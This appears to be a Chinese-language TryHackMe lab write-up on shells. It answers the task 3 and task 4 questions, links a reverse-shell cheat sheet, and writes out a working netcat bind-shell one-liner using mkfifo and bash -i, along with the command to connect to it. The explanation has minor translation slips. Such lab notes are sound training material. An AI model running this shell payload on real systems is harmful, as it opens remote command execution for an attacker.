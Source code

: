 还有很多反向shell的使用 可以看这个[网站](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

![task3](/img/user/images/tryhackme-shell：概括/task3.png)

第一问毋庸置疑 reverse shell 反向shell

第二问使用netcat工具

## task4
绑定 Shell(Bind Shell)
顾名思义，绑定 shell 将绑定受感染系统上的端口并监听连接；当发生此连接时，它会暴露 shell 会话，以便攻击者可以远程执行命令。

当受感染目标不允许传出连接时可以使用这种方法，但它往往不太受欢迎，因为它需要保持活动状态并监听连接，这可能导致检测。

绑定 shell 的工作原理
在目标上设置绑定 Shell

让我们创建一个绑定 shell。在这种情况下，攻击者可以在目标机器上使用如下命令。

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
{ #171f63}


有效载荷的解释
- rm -f /tmp/f- 此命令将删除位于 的任何现有命名管道文件/tmp/f/。这可确保脚本可以创建新的命名管道而不会发生冲突。

- mkfifo /tmp/f- 此命令在 处创建一个命名管道或 FIFO /tmp/f。命名管道允许进程之间进行双向通信。在这种情况下，它充当输入和输出的管道。

- cat /tmp/f- 此命令从命名管道读取数据。它等待可以通过管道发送的输入。

- | bash -i 2>&1- 的输出 cat通过管道传输到 shell 实例 ( bash -i)，这允许攻击者以交互方式执行命令。 将2>&1标准错误重定向到标准输出，确保将错误消息返回给攻击者。

- | nc -l 0.0.0.0 8080-l-在所有接口 ( 0.0.0.0) 和端口上以监听模式 ( ) 启动 Netcat 80

- >/tmp/f 最后部分将命令的输出发送回命名管道，实现双向通信。

低于 1024 的端口将需要提升的权限执行 Netcat

攻击者连接到Bind Shell

现在目标机器正在等待传入连接，我们可以再次使用 Netcat 使用以下命令进行连接。
```
nc -nv TARGET_IP 8080
```
命令说明
nc- 这将调用 Netcat，建立与目标的连接。
-n- 禁用DNS解析，使 Netcat 运行得更快并避免不必要的查找。
-v- 详细模式提供连接过程的详细输出，例如连接何时建立。
TARGET_IP- 运行绑定 shell 的目标机器的 IP 地址。
8080- 绑定 shell 监听的端口号。

![task4](/img/user/images/tryhackme-shell：概括/task4.png)

第一问是bind shell

第二问是1024 低于1024的都需要提升权限才能使用

